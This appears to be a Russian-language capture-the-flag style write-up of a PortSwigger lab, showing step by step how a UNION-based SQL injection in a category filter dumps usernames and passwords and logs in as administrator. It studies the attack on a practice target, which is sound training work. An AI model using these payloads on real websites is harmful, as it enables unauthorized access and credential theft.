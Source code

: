 ```yaml
---
title: "SQL injection UNION attack retrieving multiple values in a single column"
date: 2025-06-19
tags: [sqli, writeup]  
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column"
---
```


## Scope

```
https://0a3300e7041babb2811b346f0068004e.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. В БД есть таблицы с именам `users` и колонками `username` и `password`. Для решения лабораторной работы нужно выполнить атаку с помощью `SQL`-инъекции, войдя под пользователем `administrator`.


## Solution

Из условия лабы известно, что уязвимость находится в фильтре категорий. Поэтому возьму `URL` с фильтром `Accessories`:

```
https://0a3300e7041babb2811b346f0068004e.web-security-academy.net/filter?category=Accessories
```


Следующим моим шагом будет подбор обрамления. Предположу, что запрос выглядит так:

```sql
SELECT * FROM table WHERE category = 'Accessories'
```

Тогда пейлоад должен иметь следующий вид:

```
Accessories' and false-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/1.png){: height="200" .align-center}

Выдало пустую страницу без ошибок, значит в качестве обрамеления используется `'`.


Далее узнаю количество колонок в запросе с помощью `ORDER BY`:

```
Accessories' ORDER BY 10-- -Error
Accessories' ORDER BY 5-- - Error
Accessories' ORDER BY 3-- -Error
Accessories' ORDER BY 2-- - OK
```

Значит у нас используется 2 колонки в запросе. Попробую использовать `UNION` для отображения информации:

```
Accessories' UNION SELECT 1, 2-- -Error
Accessories' UNION SELECT 1, '2'-- -OK
```

Я получил вот такое отображение на страницу:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/2.png){: height="200" .align-center}

Значит отображается информация только из второй колонки, а мне нужно получить `login` и `password` из таблицы `table`. Это можно сделать с помощью двух запросов, либо же использовать конкатенацию строк с помощью `concat`. Мой пейлоад будет иметь следующий вид:

```
Accessories' UNION SELECT 1, concat('1', '2')-- -
```

А вот так это отображается на странице:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/3.png){: height="200" .align-center}

Теперь попробую получить нужные данные. Я добавил условие `0=1`. Теперь у меня отображается только вторая часть моего запроса, то есть логины и пароли:

```
Accessories' and 0=1 UNION SELECT NULL, concat(username, ':' ,password) FROM users-- -
```

Я получил следующий вывод:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/4.png){: height="200" .align-center}

Теперь зайду в аккаунт под пользователем `administrator`:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/5.png){: height="200" .align-center}

Победа)
